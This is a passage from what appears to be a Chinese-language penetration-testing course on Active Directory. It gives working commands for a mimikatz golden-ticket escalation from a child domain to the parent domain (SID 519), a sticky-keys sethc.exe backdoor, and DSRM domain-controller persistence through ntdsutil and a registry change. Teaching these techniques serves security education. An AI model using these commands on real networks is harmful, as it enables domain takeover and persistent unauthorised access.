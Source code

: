 * 使用 powerview 获取父子域的 sid：

```java
Get-DomainComputer -Domain {父域名}
Get-DomainComputer -Domain {子域名}
```

* 利用 mimikatzt 向内存注入票据，添加 SID＝519 企业管理员。

```java
kerberos::golden /user:Administrator /krbtgt:{第一步获取的hash} /domain:{域名} /sid:{子域sid} /sids:{替换父域sid最后一个值为519} /ptt
```

* 访问父域的共享目录

```java
dir \\{父域名}\c$
```

### 权限维持

有时服务器被重启，或者修改密码之后，我们就失去了对目标的控制权，因此我们得想办法去维持权限的持久性，保证我们在需要的时候都能够远程控制。

#### 1.WebShell

如果是 Webshell，那服务器重启后也没影响。关于 Webshell，前面课程已介绍过，此处不再赘述。

#### 2.系统后门

前面我们使用 metasploit 利用漏洞去获取 meterpreter 后门也是一种方式，你可以把后门添加到自启动项，保证重启后仍有效，这种比较适合开启监听后门，因为有时候我们没有一直在本地开启监听去等待对方连接。

粘滞键后门是最常用的后门留取方式，粘滞键是指连续按 5 次 Shift 键而触发的，它执行的是 windows\\system32\\sethc.exe 程序，我们用后门程序替换掉就可以。


<Image alt="Drawing 28.png" src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEjSAG5D7AAB7pk5Jmlc919.png"/> 
  
图 29 粘滞键

除此之外，你还可以使用注册表、计划任务等方式来留取后门。

#### 3.域控维权

在拿到域控后，攻击者会对现有的权限进行持久化操作，以保证长期有效地控制它，常用的方法有以下两种。

* **DSRM**

DSRM，目录服务恢复模式是 Windows 域控制器的安全模块启动项，你可以通过它为域控制器设置一个本地管理员账户，然后同步其他账号的密码为 DSRM 密码，再修改注册表的 DrmAdminLogonBehavior 为 2，即允许使用 DSRM 管理员账号登录域控制器：

```java
＃ 同步DSRM密码
ntdsutil
set DSRM password
SYNC FROM DOMAIN ACCOUNT username
Q
Q
＃修改注册表配置：
reg add " HKLM\System\CurrentControlSet\Control\Lsa" /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
```
